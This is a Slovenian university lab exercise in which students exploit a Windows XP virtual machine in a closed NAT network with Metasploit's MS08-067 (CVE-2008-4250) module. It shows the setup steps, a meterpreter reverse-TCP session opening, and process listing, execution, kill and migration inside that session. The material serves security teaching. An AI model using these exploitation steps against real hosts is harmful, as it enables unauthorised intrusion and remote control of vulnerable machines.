








# 11. Vaja: Izvajanje v naprej pripravljenih napadov

## Navodila

1. Izvedite napad na navidezni računalnik z operacijskim sistemom Windows XP.

## Dodatne informacije

## Podrobna navodila

### 1. Uporaba Metasploit

Na prejšnjih vajah smo sami napisali program, ki povozi sklad drugemu programu oz. vrnitveni naslov funkcije in požene `Python` ukazno vrstico. Vidimo, da sta program, ki izkorišča ranljivost in program, ki se požene, med seboj neodvisna. Zato lahko uporabimo program, ki že zna izkoristiti to ranljivost in mu mi podamo samo program, ki ga želimo pognati. Prav tako, lahko zna tak program sam poiskati in izkoristiti znane ranljivosti. Eden izmed takih program je [Metasploit](https://en.wikipedia.org/wiki/Metasploit), ki ga lahko dobimo [tukaj](https://github.com/rapid7/metasploit-framework).

Naš cilj bo vdreti v navidezni računalnik z operacijskim sistemom Windows XP, ki se nahaja na navideznem disk `muha.vmdk`, ki ga dobite [tukaj](https://polaris.fri.uni-lj.si/muha.vmdk).

Z `VrtualBox` ustvarimo nov navidezni računalnik z navideznim diskom `muha.vmdk`, tako da pritisnemo na gumb `New`. V zavihku `Name and Operating System` vpišemo poljubno ime navideznega računalnika v polje `Name:`, na primer `WindowsXP`.

V zavihku `Hardware` spremenimo število procesorjev pod `Processors` na 2.

V zavihku `Hard Disk` izberemo možnost `Use an Existing Virtual Hard Disk File`, ki ga izberemo s klikom na gumb z rumeno mapo in zeleno puščico, kjer dodamo navidezni disk `muha.vmdk` s pritiskom na gumb `Add` in ga nato izberemo s pritiskom na gumb `Choose`.

Potrdimo izbrane nastavitve s pritiskom na gumb `Finish` in tako ustvarimo navidezni računalnik. Za uspešni zagon Windows XP operacijskega sistema moramo spremeniti nastavitve s klikom na gumb `Settings` v podrobnostih navideznega računalnika. V zavihku `System` nastavimo nastavitev `Chipset:` na vrednost `PXII3` in nastavitev `Extended Features:` na vrednost `Enable I/O APIC`.

V zavihku `Storage`, kliknemo na `IDE` krmilnik diska `muha.vmdk` in nastavimo `Type:` na `PXII3`.

V zavihku `Network` za nastavitev `Attached to:` izberemo možnost `NAT Network`. Če `NAT Network` še nismo ustvarili, kliknemo na ikono `Tools` nad navideznimi računalniki ter nato na ikono s tremi vrsticami, kjer izberemo meni `Network`. Tukaj sedaj izberemo zavihek `NAT Networks` in pritisnemo na gumb `Create` zgoraj.

V zavihki `Network` kliknemo na gumb `Advanced`, da se nam odprejo dodatne nastavitve, kjer pod `Adapter Type` izberemo vrednost `PCnet-FAST III (Am79c973)`, ki predstavlja omrežno kartico, ki jo Windows XP privzeto podpira.

Prepričamo se ali je naš `Debian` navidezni računalnik prav tako v enakem omrežju `NAT Network`. Poženemo oba navidezna računalnika, tako `Windows XP` in `Debian` hkrati, ter preverimo njuna IP naslova. Na `Debian`-u to lahko storimo z ukazom `ip a`, na `Windows XP` pa z `ipconfig`. Sedaj še preverimo povezljivost med njima z ukazom `ping`. Iz `Windows XP` lahko vidimo `Debian` preko mreže, obratno pa ne drži. Zato na `Windows XP` izklopimo požarni zid, tako da kliknemo na meni `Start`, nato `Control Panel` in `Security Center` ter spodaj na `Windows Firewall`. V pojavnem oknu sedaj izberemo možnost `Off` in pritisnemo na gumb `OK`. Sedaj lahko `Debian` vidi `Windows XP` preko omrežja.

Sedaj namestimo Metasploit po priporočenem postopku z uporaba ukaza [`curl`](https://www.man7.org/linux/man-pages/man1/curl.1.html).

    apt update
    apt install curl

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

Poženemo Metasploit z ukazom `msfconsole` ter počakamo, da se zažene. Ukaz `help` nam prikaže načine uporabe Metasploit. Z ukazom `set RHOSTS` nastavimo IP naslov računalnika, ki ga želimo napasti.

    msfconsole

    set RHOSTS 10.0.2.4

Izkoristili bomo ranljivost [CVE-2008-4250](https://www.cvedetails.com/cve/CVE-2008-4250/), tako da poiščemo primerni napad z ukazom `search`, preverimo ali je računalnik ranljiv z ukazom `rcheck` in nato izvedemo napad z ukazom `exploit`.

    msf6 > search ms08-067

    Matching Modules
    ================

        #  Name                                 Disclosure Date  Rank   Check  Description
        -  ----                                 ---------------  ----   -----  -----------
        0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption

    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

    msf6 > use 0
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms08_067_netapi) > rcheck
    [*] Reloading module...
    [+] 10.0.2.4:445 - The target is vulnerable.
    msf6 exploit(windows/smb/ms08_067_netapi) > exploit

    [*] Started reverse TCP handler on 10.0.2.15:4444 
    [*] 10.0.2.4:445 - Automatically detecting the target...
    [*] 10.0.2.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 10.0.2.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 10.0.2.4:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175686 bytes) to 10.0.2.4
    [*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.4:1049) at 2023-05-09 14:36:39 +0200

    meterpreter > 

Sedaj smo z ukazno vrstico povezani v navidezni računalnik `WindowsXP`. Z ukazom `ps` lahko izpišemo vse procese, ki trenutno tečejo na sistemu.

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

Sedaj lahko poženemo poljubni program z ukazom `execute` in ga ustavimo z ukazom `kill`. Naš program se ne zažene na zaslonu vendar v ozadju, saj ga ne zaganjamo kot trenutni uporabnik. Zato se moramo prestaviti v program, ki že teče, katerega lastnik je trenutni uporabnik z ukazom `migrate` in nato z ukazom `execute` lahko poženemo program na zaslonu.

    meterpreter > execute -f mspaint.exe
    Process 1456 created.
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1456  984   mspaint.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\mspaint.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > kill 1456
    Killing: 1456
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > migrate 1604
    [*] Migrating from 984 to 1604...
    [*] Migration completed successfully.
    meterpreter > execute -f mspaint.exe
    Process 1752 created.
